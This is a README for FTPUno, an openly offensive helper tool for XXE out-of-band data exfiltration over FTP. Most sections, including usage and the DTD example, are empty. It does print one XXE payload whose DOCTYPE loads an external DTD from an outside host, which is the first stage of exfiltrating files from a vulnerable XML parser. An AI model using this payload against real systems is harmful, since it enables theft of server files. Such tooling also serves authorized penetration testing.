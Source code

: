 # FTPUno
A XXE exploitation helper tool to assist in XXE out of band exfiltration using FTP over a single egress port

## Requirements
The following python dependancies are required:
```python
twisted
```

## Installation
The script and dependancies can be installed using the following command:

```python
pip3 install -r ./requirements.txt
```

## Usage
The following options are available as arguments:

```
```

### Example usage

#### DTD example

#### XXE payload
To trigger the external DTD lookup using a payload similiar to below:
```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE testingxxe [<!ENTITY % remote SYSTEM "http://192.168.31.128:5000/xxe_ftp.dtd" > %remote; ]>
```

#### FTPUno example

## Todo
The following things are todo:
* Further work on File Listing behaviour
* Support for FTP GET command
* Support for EPSV command
